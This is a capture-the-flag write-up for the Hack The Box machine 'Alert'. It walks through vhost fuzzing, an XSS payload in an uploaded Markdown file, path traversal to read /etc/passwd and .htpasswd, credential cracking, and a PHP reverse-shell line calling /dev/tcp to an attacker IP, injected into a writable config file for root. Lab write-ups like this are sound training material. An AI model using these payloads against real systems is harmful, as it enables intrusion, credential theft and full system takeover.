

# Alert Writeup - by Thammanant Thamtaranon
  - Alert is an easy Linux machine on Hack The Box.

## Reconnaissance
  - We start by scanning all ports with service detection using the command `nmap -A -T4 -p- -Pn 10.10.11.44`.

  - After identifying the hostname, we add `alert.htb` to our `/etc/hosts` file.

## Scanning & Enumeration
  - Using `dirsearch -u alert.htb`, we perform directory enumeration.

  - To enumerate virtual hosts, we use:
  ```bash
  ffuf -u http://10.10.11.44 -H "Host: FUZZ.alert.htb" \
       -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
       -mc all -ac
  ```

  - This reveals `statistics.alert.htb`, which we also add to `/etc/hosts`.
  - Navigating to `http://statistics.alert.htb`, we're prompted for login credentials. Unfortunately, default or common credentials don't work.

## Exploitation
  - We return to `http://alert.htb` and test for XSS by uploading a `.md` file containing:
  ```html
  <script>alert('XSS')</script>
  ```

  - Since the script executes, we know XSS is present and exploitable.
  - We test the "Contact Us" form by sending a benign link like `http://10.10.16.11/hello`.


  - Observing that the admin clicks the link, we craft a malicious `.md` file with our payload and send the link to the admin to trigger it.

  - We then submit the malicious link to the form.


  - The link directs to `messages.php?file=2024-03-10_15-48-34.txt`. Visiting it yields nothing, so we try path traversal.
  - Trying `/messages.php?file=../../../../../../etc/passwd`, we discover users `david` and `albert`.

  - We then enumerate `/etc/apache2/apache2.conf`, which reveals the config includes `sites-enabled/*.conf`.
  - So, we load `/messages.php?file=../../../../../../etc/apache2/sites-enabled/000-default.conf`.

  - This reveals a reference to an `.htpasswd` file:
  ```
  AuthUserFile /var/www/statistics.alert.htb/.htpasswd
  ```
  - We fetch it using:
  ```
  /messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd
  ```


  - After cracking the credentials, we use them to log in to `http://statistics.alert.htb`.
  - We enumerate the web app with `dirsearch` again but find nothing useful.

## Privilege Escalation
  - We then SSH into the box as `albert` using the recovered credentials and capture the user flag.
  - Running `sudo -l` confirms `albert` has no sudo privileges.
  - Running `id`, we find albert is part of the `management` group (GID 1001).
  - To look for group-owned files, we run:
  ```
  find / -group management -ls 2>/dev/null
  ```

  - We find that `albert` has write access to `/opt/website-monitor/config/configuration.php`, so we inject a reverse shell payload:
  ```php
  shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'");
  ```
  - Checking the status of the website-monitor service with `systemctl status website-monitor`, we see it runs on `127.0.0.1:8080`.

### SSH Tunneling & Reverse Shell
  - We establish a tunnel to the service:
  ```
  ssh -L 8080:127.0.0.1:8080 albert@10.10.11.44
  ```
  - On our attacker machine, we start a listener with `nc -lvnp 4444` and visit `127.0.0.1:8080` to trigger the shell.


  - This gives us a reverse shell as root. We grab the root flag and complete the box.
